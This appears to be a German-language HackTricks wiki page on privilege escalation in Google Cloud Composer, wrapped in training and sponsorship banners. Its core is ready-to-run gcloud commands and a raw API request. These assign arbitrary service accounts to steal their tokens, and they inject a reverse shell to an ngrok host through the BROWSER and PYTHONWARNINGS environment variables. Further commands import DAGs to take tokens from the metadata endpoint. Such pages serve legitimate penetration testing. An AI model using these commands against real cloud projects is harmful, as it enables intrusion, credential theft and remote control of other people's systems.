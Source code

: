 # GCP - Composer Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## composer

Mehr Infos unter:

{% content-ref url="../gcp-services/gcp-composer-enum.md" %}
[gcp-composer-enum.md](../gcp-services/gcp-composer-enum.md)
{% endcontent-ref %}

### `composer.environments.create`

Es ist möglich, **jedem Dienstkonto** die neu erstellte Composer-Umgebung mit dieser Berechtigung zuzuweisen. Später könntest du Code innerhalb von Composer ausführen, um das Dienstkonto-Token zu stehlen.
```bash
gcloud composer environments create privesc-test \
--project "${PROJECT_ID}" \
--location europe-west1 \
--service-account="${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com"
```
Mehr Informationen über die Ausnutzung [**hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/i-composer.environmets.create.sh).

### `composer.environments.update`

Es ist möglich, die Composer-Umgebung zu aktualisieren, zum Beispiel durch Ändern von Umgebungsvariablen:

{% code overflow="wrap" %}
```bash
# Even if it says you don't have enough permissions the update happens
gcloud composer environments update \
projects/<project-id>/locations/<location>/environments/<composer-env-name> \
--update-env-variables="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/19990 0>&1' & #%s" \
--location <location> \
--project <project-id>

# Call the API endpoint directly
PATCH /v1/projects/<project-id>/locations/<location>/environments/<composer-env-name>?alt=json&updateMask=config.software_config.env_variables HTTP/2
Host: composer.googleapis.com
User-Agent: google-cloud-sdk gcloud/480.0.0 command/gcloud.composer.environments.update invocation-id/826970373cd441a8801d6a977deba693 environment/None environment-version/None client-os/MACOSX client-os-ver/23.4.0 client-pltf-arch/arm interactive/True from-script/False python/3.12.3 term/xterm-256color (Macintosh; Intel Mac OS X 23.4.0)
Accept-Encoding: gzip, deflate, br
Accept: application/json
Content-Length: 178
Content-Type: application/json
X-Goog-Api-Client: cred-type/sa
Authorization: Bearer [token]
X-Allowed-Locations: 0x0

{"config": {"softwareConfig": {"envVariables": {"BROWSER": "/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/1890 0>&1' & #%s", "PYTHONWARNINGS": "all:0:antigravity.x:0:0"}}}}
```
{% endcode %}

TODO: RCE erhalten, indem neue pypi-Pakete zur Umgebung hinzugefügt werden

### Dags herunterladen

Überprüfen Sie den Quellcode der ausgeführten Dags:

{% code overflow="wrap" %}
```bash
mkdir /tmp/dags
gcloud composer environments storage dags export --environment <environment> --location <loc> --destination /tmp/dags
```
{% endcode %}

### Importiere Dags

Importiere Dags-Code, um die Umgebung zu kompromittieren und in der Lage zu sein, das Token vom Metadata-Endpoint zu stehlen:

{% code overflow="wrap" %}
```bash
# TODO: Create dag to get a rev shell
gcloud composer environments storage dags import --environment test --location us-central1 --source /tmp/asd
```
{% endcode %}

### Plugins importieren

TODO: Überprüfen, was durch das Hochladen von Plugins kompromittiert werden kann

### Daten importieren

TODO: Überprüfen, was durch das Hochladen von Daten kompromittiert werden kann

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
